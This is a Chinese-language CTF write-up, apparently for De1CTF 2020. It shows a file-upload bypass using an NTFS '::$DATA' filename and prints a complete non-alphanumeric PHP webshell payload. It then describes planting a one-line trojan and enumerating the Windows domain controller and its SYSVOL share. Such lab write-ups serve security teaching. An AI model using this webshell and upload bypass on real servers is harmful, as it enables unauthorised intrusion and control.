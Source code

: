 ```
###### 由于`Check()`函数的过滤，我们不能使用普通的字符，并且不能上传后缀为`.php`的文件，不过由于服务器是`windows`因此我们可以通过NTFS流的方式绕过后缀名的限制`::$DATA`，例如下面的文件名：

```
test.php::$DATA
```

###### 参考无字母数字webshell之提高篇((https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html))来构造我们的无字母的shell。

```
=$_=[]?>=$_=@"$_"?>= $_=$_['!'=='@']?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$____='_'?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>= $____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$_=$$____?>=$___($_[_])?>
```

###### 上传我们的代码：

![ccc888dd144679a54aabc7546155b8e9.png](img/85cd850747d768f83a77da739d507cce.png)

###### 成功getshell：

![eaccf087c16c756f0d1104d1aac3e876.png](img/a31d7c133446b72a015711255e106b2c.png)

###### 通过system写入一个一句话木马，例如：

![a893c312055f88dd3fb077d961a08af1.png](img/62ef6cff61cd5132e14809e3a0edc2e4.png)

###### 现在我们使用御剑来连接我们的shell，密码是`a`。

###### 在御剑中打开文件管理，可以看到flag是在`flag1_and_flag2hint`压缩包里，但是我们没有密码，而且爆破是不成功的，因此我们考虑windows渗透：

###### 1.我们查看我们所在的域`net time /domain`，结果如下：

![50c53e9c69887b4350ab578d463b5a90.png](img/0dbc833d650fa04589108a575568cf96.png)

###### 从上面的结果中可以看到我们所在的域是`dc.De1CTF2020.lab`。

###### 2.使用`ipconfig`命令来查看域控：

![d5253bbeb6bc5fe0292e70dda9b3ee5b.png](img/bed8b7c420588bd14170b8aadde2c01c.png)

###### 从上面的结果来看我们的域控是`192.168.0.12`。

###### 3.拿到域控的共享文件夹，找到组策略。

```
net use \\192.168.0.12net view \\192.168.0.12net use S:\\192.168.0.12\wq回车后即可映射局域网内目标机器的S盘。或者直接访问net use \\192.168.0.12\SYSVOL\de1ctf2020.lab\Policies也行随你高兴
```

###### 结果如下：

![4f72d10c2ff87a63f6d28bda3d4053c8.png](img/61f95a1452ab68ef79310152c5a4bfdb.png)
```